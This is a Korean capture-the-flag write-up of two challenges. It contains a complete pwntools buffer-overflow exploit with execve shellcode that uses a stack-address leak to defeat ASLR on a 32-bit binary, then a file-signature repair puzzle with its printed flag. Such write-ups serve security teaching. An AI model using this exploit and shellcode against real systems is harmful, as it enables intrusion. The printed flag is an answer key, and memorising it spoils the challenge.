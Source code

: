 EnteredSHELL, 열어보시지요
=================
EnteredSHELL
---------------------------
이 문제는 포너블 분야의 문제로 수준은 LOB 1단계 급 수준이다.

파일은 32bit로 컴파일 되어있으며, 보호기법은 걸려있지 않다.

main함수를 보자.

![텍스트](https://i.imgur.com/utNEvRC.png)

vuln 함수를 호출해준다. 바로 vuln 함수를 보자.

![텍스트](https://i.imgur.com/MDx4rQm.png)

gets로 s변수에 입력을 받으므로 Buffer overflow가 일어난다는 사실이 자명하다.

심지어 이 파일은 NX도 걸려있지 않고, canary도 걸려있지 않으므로, 스택으로 eip을 돌려서shellcode를 실행시켜주면 될 것이다.

하지만 실 서버에는 ASLR이 걸려있기 때문에 stack으로 eip를 돌리는 게 힘들 것이라고 생각을 할 수 있다. 그렇지만, printf로 stack address를 스스로 leak 해준다.

그러므로 시나리오는 stack에 gets로 값을 받음을 이용, shellcode를 stack에 넣어주고, eip를 leak된 값을 이용해서 stack address로 옮겨주면 된다.	끝

~~~python
from pwn import *
p = process('./EnteredSHELL')
#p = remote('52.78.156.241', 7777)

p.recvuntil(' : ')
leak = int(p.recv()[:8],16)
shell = '\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'
pay = shell + 'a'*234 + p32(leak)
log.info('stack : ' + hex(leak))
p.sendline(pay)
p.recvuntil(p32(leak) + '\n')
p.interactive()
~~~

![텍스트](https://imgur.com/zP1JqEM.png)

서버가 닫혀있어서 플래그는 모르겠다.

![텍스트](https://imgur.com/8xRi18e.png)

열어보시지요
---------------------------

이 문제는 리버싱 분야의 문제로 출제됐다.

사실 포렌식 문제라고 보는 게 더 맞을 거 같다는 생각이 든다.

![텍스트](https://imgur.com/vsYymB2.png)

처음에 zip 압축 풀고 폴더 열어보면 이렇게 “열어보시지요”라는 파일들이 각각의 파일 확장자를 가진 상태로 주어져있다. 

그 상태에서 파일을 열어보면 잘 열리는 파일들이 있다.

![텍스트](https://imgur.com/C2gakgK.png)

이런 식으로 아마 pdf, pptx파일은 잘 열린다.

![텍스트](https://imgur.com/JjWDrNB.png)

하지만 그 두 파일이 아닌 나머지 파일은 이런 식으로 열리지 않는다.

열리지 않는 이유는 간단하게 맨 앞 몇 바이트 부분을 차지하는 파일 시그니처 부분이 다른 값으로 바뀌어져 있기 때문이다.

![텍스트](https://imgur.com/y1DUHGi.png)

위 사진과 같이 hxd로 파일들을 확인해본다면, 왼쪽의 원래 확장자와 맞는 파일 시그니처와 오른쪽의 받은 파일에 시그니처가 값이 다르다.

그래서 앞 부분 파일 시그니처의 몇 바이트 부분을 확장자에 맞는 값으로 바꿔주면 파일이 열리게 된다.

![텍스트](https://imgur.com/lQwP2Lj.png)

이런식으로 값을 바꿔주게 된다면, 파일이 열리고 플래그의 일부분이 보이게 될 것이며, 모든 파일을 순서대로 읽어온다면 모든 플래그를 읽어올 수 있다.

![텍스트](https://imgur.com/sNME4LW.png)

이렇게 열리지 않던 파일이 열리게 됨으로써 문제가 풀리게 된다.

# FLAG : 1_m!Ss__the__moooHaaaanDOJEON
